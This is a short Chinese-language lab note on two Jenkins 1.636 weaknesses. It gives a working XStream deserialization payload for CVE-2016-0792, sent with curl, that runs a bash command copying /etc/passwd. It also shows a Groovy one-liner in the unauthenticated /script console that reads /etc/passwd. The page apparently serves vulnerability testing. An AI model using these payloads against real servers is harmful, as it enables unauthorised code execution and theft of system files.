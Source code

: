 ### CVE-2016-0792 - XStream 反序列化漏洞

测试镜像

* src/jenkins/1.636/

参考文档

* [Jenkins - XStream Groovy classpath Deserialization (Metasploit)](https://www.exploit-db.com/exploits/43375/)

Poc

```
# 复制 /etc/passwd 到 /tmp
curl 'http://127.0.0.1/createItem?name=boh3ti8AGh' --data-binary '<map><entry><groovy.util.Expando><expandoProperties><entry><string>hashCode</string><org.codehaus.groovy.runtime.MethodClosure><delegate class="groovy.util.Expando"reference="../../../.."/><owner class="java.lang.ProcessBuilder"><command><string>/bin/bash</string><string>-c</string><string>cp /etc/passwd /tmp</string></command><redirectErrorStream>false</redirectErrorStream></owner><resolveStrategy>0</resolveStrategy><directive>0</directive><parameterTypes/><maximumNumberOfParameters>0</maximumNumberOfParameters><method>start</method></org.codehaus.groovy.runtime.MethodClosure></entry></expandoProperties></groovy.util.Expando><int>1</int></entry></map>' -H 'Content-Type: application/xml'
```

### 运维安全 - /script 无认证

测试镜像

* src/jenkins/1.636/

访问 /script，执行如下内容

```
println "cat /etc/passwd 2>&1".execute().text
```


